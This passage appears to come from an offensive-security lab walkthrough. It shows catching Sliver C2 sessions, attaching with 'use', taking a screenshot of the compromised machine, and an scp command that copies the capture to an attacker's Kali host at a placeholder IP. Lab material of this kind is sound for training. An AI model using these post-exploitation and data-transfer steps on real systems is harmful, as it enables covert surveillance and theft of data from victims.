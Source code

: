 ![Screenshot showing new sessions being caught in the Sliver framework](./img/sessions_new.PNG "New sessions caught in Sliver framework")

And we can attach to the new session with ``use``.

![Screenshot showing the use command in Sliver framework to attach to a session](./img/use2.PNG "Using the use command in Sliver framework to attach to a session")

Now, running ``screenshot``, we can see that we wrote data in our capture!

![Screenshot showing a successful screenshot capture](./img/screenshot_success.PNG "Successful screenshot capture")

To view the image, we can ``scp`` the screen capture back to Kali.

```bash
sudo scp /tmp/screenshot_proxy_<timestamp>.png user@<kali-ip>:/home/user
```

![Screenshot showing the SCP command being used to transfer a file](./img/scp_screenshot.PNG "SCP command transferring a file")
